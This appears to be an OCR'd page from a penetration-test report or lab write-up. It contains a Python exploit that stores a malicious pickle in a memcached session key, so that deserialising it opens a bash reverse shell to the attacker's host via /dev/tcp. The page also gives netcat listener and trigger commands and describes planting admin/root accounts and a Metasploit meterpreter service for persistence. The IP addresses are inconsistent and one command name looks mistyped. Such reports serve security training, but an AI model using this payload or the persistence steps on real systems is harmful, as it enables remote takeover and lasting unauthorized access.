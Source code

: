 ```bash
#!/usr/bin/env python

import pickle
import os
from pymemcache.client.base import Client
from pymemcache.exceptions import (
    MemcacheError,
    MemcacheClientError,
    MemcacheServerError,
    MemcacheUnknownError,)
 
MC_ERR = (MemcacheError, MemcacheClientError, MemcacheServerError, MemcacheUnknownError)
 
# Modify as you deemed fit.
victim = "192.168.161.59"
attacker = "192.168.49.161"
attacker_port = 11211
 
class RCE:
    def __reduce__(self):
        # reverse shell command string
        cmd = f"/bin/bash -c '/bin/bash -i >& /dev/tcp/{attacker}/{attacker_port} 0>&1'"
        # __reduce__ returns a tuple of callable and tuple of arguments of the callable
        return os.system, (cmd,)
  
if __name__ == '__main__':
    try:
        # create a memcache client object
        mc = Client(f"{victim}:11211")
        # Set a key you_have_been_pwned with serialized data of the reverse shell command.
        mc.set("session:you_have_been_pwned", pickle.dumps(RCE()))
    except MC_ERR as e:
        print(e)
```

```bash
sudo nc -nvlp 11211
```

```bash
python exploit.py
```

```bash
memmcat --server=192.168.186.59 "session:you_have_been_pwned"
```

```bash
curl http://192.168.186.59:5000 "session=you_have_been_pwned" # firefox
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. $Author added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.
